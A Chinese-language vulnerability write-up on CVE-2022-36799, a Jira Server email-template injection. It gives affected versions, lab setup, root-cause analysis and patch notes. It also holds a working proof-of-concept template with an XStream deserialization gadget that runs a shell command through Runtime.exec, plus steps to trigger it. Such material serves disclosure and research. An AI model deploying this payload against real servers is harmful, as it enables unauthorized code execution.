 # CVE-2022-36799 Jira Server 模板注入
## 影响版本
Affected versions:
version < 8.13.19
8.14.0 ≤ version < 8.20.7
8.21.0 ≤ version < 8.22.1
## 环境搭建
run --name="jira819" -d -p 8080:8080 atlassian/jira-software:8.19.0-RC01-ubuntu-jdk8
## 原理分析
公告中说明是邮件模板注入,其实还是CVE-2021-39115的黑名单绕过,在公告中写了防止利用Xstream库进行RCE.  
![](2022-08-04-17-52-54.png)
而JIRA使用的Xstream库是1.4.17版本,而Xstream的1.4.17版本的RCE很多.  
![](2022-08-04-17-54-21.png)
根据CVE-2021-39115的思路还是利用jirautils类的`loadComponent`方法来获取一个Xstream实例即可,然后后续其实就是调用其fromxml()来利用Xstream的漏洞进行rce了.
### 一些坑
在构造poc的时候有一些坑,首先Xstream的1.4.17版本的RCE有很多是基于JNDI的,而jira的默认java环境大部分是jdk292或者jdk11,所以不好用,唯一一个比较简单的CVE-2021-39144直接执行命令的在jdk11下也会报错.   
最后用的是一个jdk8 292环境的jira使用CVE-2021-39144进行测试.
## 漏洞复现
poc:
```
<html lang="en">
<label>
    #set($payload="<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
    </default>
    <int>3</int>
    <dynamic-proxy>
      <interface>java.lang.Comparable</interface>
      <handler class='sun.tracing.NullProvider'>
        <active>true</active>
        <providerType>java.lang.Comparable</providerType>
        <probes>
          <entry>
            <method>
              <class>java.lang.Comparable</class>
              <name>compareTo</name>
              <parameter-types>
                <class>java.lang.Object</class>
              </parameter-types>
            </method>
            <sun.tracing.dtrace.DTraceProbe>
              <proxy class='java.lang.Runtime'/>
              <implementing__method>
                <class>java.lang.Runtime</class>
                <name>exec</name>
                <parameter-types>
                  <class>java.lang.String</class>
                </parameter-types>
              </implementing__method>
            </sun.tracing.dtrace.DTraceProbe>
          </entry>
        </probes>
      </handler>
    </dynamic-proxy>
    <string>touch /tmp/poc</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>")
#set($XStream = $jirautils.loadComponent('com.thoughtworks.xstream.XStream',$i18n.getClass()))
$XStream.fromXML($payload)
</label>
<input value=$XStream>
</html>
```
替换邮件模板的通用模板如emailfromadmin.vm等的内容为poc内容,然后重新上传邮件模板覆盖发送邮件触发即可.  

![](2022-08-04-18-02-58.png)
## 补丁
拉黑xstream
![](2022-08-04-18-05-38.png)
## 参考
https://jira.atlassian.com/browse/JRASERVER-73582